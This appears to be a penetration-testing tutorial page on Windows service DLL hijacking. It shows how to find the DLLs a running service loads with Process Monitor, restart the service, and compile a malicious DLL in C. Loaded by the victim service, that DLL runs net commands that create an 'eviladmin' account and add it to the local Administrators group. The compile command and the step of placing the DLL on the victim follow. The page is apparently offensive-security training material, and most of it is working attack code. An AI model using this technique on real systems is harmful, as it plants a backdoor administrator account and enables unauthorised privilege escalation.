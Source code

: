 ```yaml
---
description: DLL Hijacking is a highly effective method.
---
```


# Service DLL Hijacking

## Finding DLL's on running service.

We can use Process Monitor, or any monitoring tool that is on the system to enumerate DLL's on a running service. _**We may have to import our own process monitor binary to system if there is none under permissions we can use!**_

_<mark style="color:red;">**NOTE:**</mark>_ If the DLL list is empty, we should restart the service and view the start up DLLs.

<figure><img src="../../../.gitbook/assets/Screenshot_20231009_180645 (1).png" alt=""><figcaption><p>XFreeRDP - Procmon w/ DLL Name Filter is Empty.</p></figcaption></figure>

### Restarting DLL Service

```
PS> Restart-Service BetaService
```

<figure><img src="../../../.gitbook/assets/Screenshot_20231009_181914.png" alt=""><figcaption><p>Viewing Loaded DLL's after executing Restart-Service</p></figcaption></figure>

## Create Malicious DLL

There are many types of malicios DLL's we can execute on our victim. For more information view: Malware Development

#### Adds Administrative User w/ Net Command

```c
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user eviladmin password123! /add");
  	    i = system ("net localgroup administrators eviladmin /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```

#### Compile for Windows x64

**--shared** to specify that we want to build a DLL.

```
x86_64-w64-mingw32-gcc malicous-dll.c --shared -o myDll.dll
```

#### We then transfer the DLL to our victim and save it at the location it's being called from.

<pre><code><strong>PS> $env:path
</strong></code></pre>
